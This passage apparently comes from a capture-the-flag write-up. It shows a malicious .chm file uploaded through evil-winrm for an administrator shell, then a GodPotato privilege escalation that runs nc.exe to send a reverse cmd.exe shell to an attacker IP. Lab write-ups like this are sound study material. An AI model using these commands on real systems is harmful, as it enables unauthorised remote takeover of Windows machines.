 now simply copy output file doc.chm and paste it in evil-winrm session directory.
Next in Evil-winrm navigate to c:/docs and upload file

```
upload doc.chm
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250914094033.png)

I uploaded 3 times before executed so be patient

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250914093854.png)

Now we have administrator shell.

## Easy win

As I mention before we don't need to go this path in 2025, while we get a shell as nt authority\iusr with SeImpersonatePrivilege we can just upload and run godpotato, get system shell and grab both flags at once.

```
.\GodPotato.exe -cmd "C:\programdata\nc.exe 10.10.14.8 443 -e cmd.exe"
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250914100408.png)

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250914100420.png)